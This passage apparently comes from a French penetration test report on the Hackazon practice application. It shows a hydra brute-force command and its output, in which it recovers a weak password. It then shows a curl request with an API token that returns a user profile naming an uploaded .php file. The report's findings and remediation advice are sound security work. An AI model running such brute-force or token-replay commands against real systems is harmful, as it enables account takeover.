 
On peut également bruteforce les mdp avec hydra ce qui prouve qu'il n'y a pas de protection antibruteforce
```bash
hydra -S -l test_user -P /usr/share/wordlists/rockyou.txt hackazon.trackflaw.com https-post-form \
"/user/login:username=test_user&password=^PASS^:Username or password are incorrect."

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-18 04:10:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://hackazon.trackflaw.com:443/user/login:username=test_user&password=^PASS^:Username or password are incorrect.
[443][http-post-form] host: hackazon.trackflaw.com   login: test_user   password: 123456
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-18 04:11:00

```
**Recommandation :**
Mettre en place une protection anti‑bruteforce sur la page de connexion en limitant le nombre de tentatives (rate limiting, délai progressif ou CAPTCHA) et en journalisant les échecs d’authentification pour détecter les attaques répétées.

---

```bash
curl -H "Authorization: Token 313e860e4d45d91f8261661db4d520bd46b8b00b" \
  https://hackazon.trackflaw.com/api/user/me

{"id":"14","username":"zindar","first_name":"ryan","last_name":"rais","user_phone":"","email":"rr@gmail.com","oauth_provider":null,"oauth_uid":null,"created_on":"2025-10-10 10:02:48","last_login":"2025-10-17 20:26:06","active":"1","photo":"ae\/zebi.php","photoUrl":"ae\/zebi.php"}  
```

##### 5 Autorisation

###### 5.1 IDOR 

| Intitulé                                                                                         | Exploitation | Impact  | Criticité |
|--------------------------------------------------------------------------------------------------|--------------|---------|-----------|
| Acceptation non documentée de méthodes HTTP sur l’endpoint `/api/user/{user_id}`                | Moyen        | Élevé   | ÉLEVÉ     |


sur la route api/user/{id} on est censé seulement pouvoir faire des PUT :

```bash
        "/api/user/{user_id}": {
            "put": {
                "responses": {
                    "200": {
                        "description": "Response will be in JSON",
                        "schema": {
                            "$ref": "#/definitions/UserProfileData"
                        }
                    }
                },
                "description": "update a users data.",
                "parameters": [
                    {
                        "name": "user_id",
                        "in": "path",
                        "required": true,
                        "type": "integer"
                    },
```